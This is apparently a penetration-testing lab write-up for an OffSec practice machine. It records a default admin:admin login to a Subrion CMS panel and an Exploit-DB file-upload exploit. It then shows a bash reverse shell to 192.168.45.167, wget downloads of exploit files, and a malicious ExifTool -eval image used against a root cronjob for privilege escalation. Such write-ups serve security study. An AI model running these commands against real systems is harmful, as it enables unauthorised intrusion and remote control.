










# 80

Found a webpage run on subrion cms\
Found robots.txt


Found login page with version disclosure:


Trying `admin : admin`:

We are logged in.

Now trying a file upload vulnerability https://www.exploit-db.com/exploits/49876:
```bash 
python3 subrionfileup.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
```


Now transfering shell.sh:
```
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.167/8000 0>&1
```

and executing it:


We get a full a TTY:


Found some potential credentials:

Found some info:


Running linpeas found cronjob:


Now checking exiftool version:

https://github.com/OneSecCyber/JPEG_RCE/tree/main
ExifTool 7.44 to 12.23 are vulnerable.

Our exiftool version is vulnerable to this exploit.
Using the exiftool exploit
Transfer the required files:
```
wget http://192.168.45.167/eval.config
wget http://192.168.45.167/runme.jpg
```

create a malicious image:
```
exiftool -config eval.config runme.jpg -eval='system("bash /var/www/html/subrion/uploads/shell.sh")'
```
in `/var/www/html/subrion/uploads`

# Lesson Learnt

Just because a script runs in cron and uses a specific binary it might not be tricking the script and might be about the version too